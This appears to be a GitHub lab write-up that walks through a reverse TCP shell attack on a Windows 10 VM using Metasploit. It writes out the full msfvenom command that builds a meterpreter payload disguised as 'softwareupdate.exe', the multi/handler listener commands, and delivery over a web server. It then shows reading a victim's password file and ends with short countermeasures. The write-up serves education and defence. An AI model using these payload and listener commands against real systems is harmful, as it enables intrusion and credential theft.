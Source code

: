 # Reverse TCP Shell Using Metasploit 

## Objective

In this lab, I will exploit a Windows 10 system using the Metasploit Framework on Kali Linux. By doing so, I will have near-complete access to the victim machine through a reverse TCP shell. Once the shell is established, I will then demonstrate the ability to search the target machine for any information I can use to my advantage.

The steps below can be followed in order to achieve the same results. 

### Skills Learned

- Networking Concepts
- Metasploit Framework 
- Post-Exploitation Techniques
- Payload Creation

### Project Enviroment Details
- Machine A is a Kali Linux VM.
- Machine B is a Windows 10 VM.
- For testing purposes both machines are on the same network (10.0.2.0/24).
- For testing purposes antivirus will be disabled.
- For testing purposes the Windows 10 firewall is disabled.

# Steps

## Determining the Attacking Machine's IP Address
Before creating the payload, I need to make a note of my Kali system's IP address. By using the command "ifconfig", I am able to quickly view network interface information. I need to gather the IP address of the attacking machine because it is used in the command for the malicious payloads creation. 

![Kali IP Photo](https://github.com/NPIRNER/Reverse-TCP-Connection-Using-Metasploit-Framework/assets/115173142/02c180ec-a0d8-4b74-a74d-e2509063e0a3)

You can see above that the IP address for Machine A is "10.0.2.15".

## Weaponization/Payload Creation
Now that the IP address is identified, I need to create the executable payload that will be used to establish the reverse TCP shell. In order to do so, I can use the Metasploit's "msfvenom" command. Msfvenom is a metasploit command that allows users to create custom payloads for their targets. 

Our target machine is a Windows 10 system so I will be using Msfvenom's Windows Reverse Shell Command. The command is as follows: "msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform win -f exe LHOST=10.0.2.15 LPORT=4444 -o /home/kali/softwareupdate.exe"

![Msfvenom_payload creation](https://github.com/NPIRNER/Reverse-TCP-Connection-Using-Metasploit-Framework/assets/115173142/404ad24e-66ce-47cf-b56c-1106d451fa5a)

The command is comprised of multiple components that specify exactly what executable payload I want to create. In this instance, I want msfvenom to create an  windows executable file to establish the reverse tcp shell connection.

Command Components:
- "-p windows/meterpreter/reverse_tcp" specifies that I want to create a meterpreter reverse TCP shell.
- "-a x86 --platform win" specifies the architecture and platform I want the payload generated for.
- LHOST is where I input my attacking machines IP Address.
- LPORT's purpose is to specify what port the attacking machine should listen on for when the victim machine runs the executable.
- "/home/kali/softwareupdate.exe" specifies the install location and file name.

## Establishing a listener
With the payload created and installed to my specified path "/home/kali", I need to create a listener before launching my attack. A listener is a key component in my reverse shell attack. The listener's role is to wait for the incoming connection from the target machine once its been compromised. Once the listener picks up the target machines signal, the session will be opened. 

![msfconsole photo](https://github.com/NPIRNER/Reverse-TCP-Connection-Using-Metasploit-Framework/assets/115173142/1270309f-345b-4cbe-babe-b3c21d5cd836)

Using the "msfconsole" command, metasploit's console will be launched. 

Once the console finishes loading, I can begin creating the listener using metasploit's generic payload handling commands. 

The following commands need to be entered in the console to create the listener:

- use multi/handler
- set payload windows/meterpreter/reverse_tcp
- set LHOST 10.0.2.15
- set LPORT 4444
- run

![awaiting connection photo 2](https://github.com/NPIRNER/Reverse-TCP-Connection-Using-Metasploit-Framework/assets/115173142/b1edd722-11ae-49c9-b932-3218328653a0)

I can easily see my listener is active once the "[*] Started reverse TCP handler on 10.0.2.15:4444" is shown. 

## Delivery
Now that the malicious payload was created and the listener is active, I need to get my payload to the target machine. For this project I will be hosting the executable file on a web server using apache. Apache will accept an HTTP request from the target machine and send the malicious executable. Ordinarily the delivery can be done through social engineering, phishing emails, and USB drop attacks. 

![starting apache2](https://github.com/NPIRNER/Reverse-TCP-Connection-Using-Metasploit-Framework/assets/115173142/04bf87a0-714a-4463-9980-485b14405710)

## Installation
The target machine will navigate to the apache web server that I have created and the malicious executable will begin downloading. 

![Windows 10 social engineering 2](https://github.com/NPIRNER/Reverse-TCP-Connection-Using-Metasploit-Framework/assets/115173142/339c82ec-5d76-41ed-82da-5a795b8c90f6)

## Command and Control

Once the file is ran, I am able to see the connection has been established on my Kali machine.

![Session Established](https://github.com/NPIRNER/Reverse-TCP-Connection-Using-Metasploit-Framework/assets/115173142/95bfb018-6465-4c3d-821b-80b7a4f5f085)

## Actions on Objectives
With the connection established, I now have complete control over the victim machine. I can create directories, create users, transfer files and more. I can also make the reverse tcp shell persistent so the session is never lost.

Now that I have access I want to search the victim's machine for any information I can take advantage of. Using the command line, I viewed the target machine's users, accessed the machine's desktop and noticed the target had a "Passwords.txt" file saved to their desktop. 

![reading passwords file on desktop](https://github.com/NPIRNER/Reverse-TCP-Connection-Using-Metasploit-Framework/assets/115173142/39e485a7-4236-4bea-a37e-9c75be5bdea2)

Using the "cat" command in Linux, I am able to view the "Passwords.txt" file and see the target had there bank login information saved and their companie's VPN login.

Now that I have information I can take advantage of, I am going to close the session.

![closing session](https://github.com/NPIRNER/Reverse-TCP-Connection-Using-Metasploit-Framework/assets/115173142/394932ae-5a7f-4542-a23f-1f81fc2b042d)

### Summary
Using Metasploit on a Kali Linux machine, I was able to create a malicious payload that allowed me to establish a remote tcp shell connection with my target machine. I used Msfvenom to create the payload and then used msfconsole to create a listenser on my attacking machine. I then started a web server to host my malicious file. Once my target machine sent an HTTP request to my web server, the executable file was installed to the target machine. Unknowingly, the target machine user opened the executable file and started the reverse tcp shell session. 

Now that the session was opened, I had full access to the target machine. I searched through its user's, accessed its desktop directory, and found vulnerable information. 

### Counter Measures
To avoid an attack like this, it is extremely important to have a strict firewall and an up to date antivirus/operating system.

Following the above steps, an up to date Windows 10 machine with Windows Defender will block the installation of the executable file I created. It's not possible for the user to ignore Windows Defender and proceed anyway. The antivirus immediately detects that its a malicious file and will not let the installation occur. In order to conduct this project, I needed to deactivate Windows Defender completely.  


This project was extremely fun and insightful, I hope you enjoyed. 



 


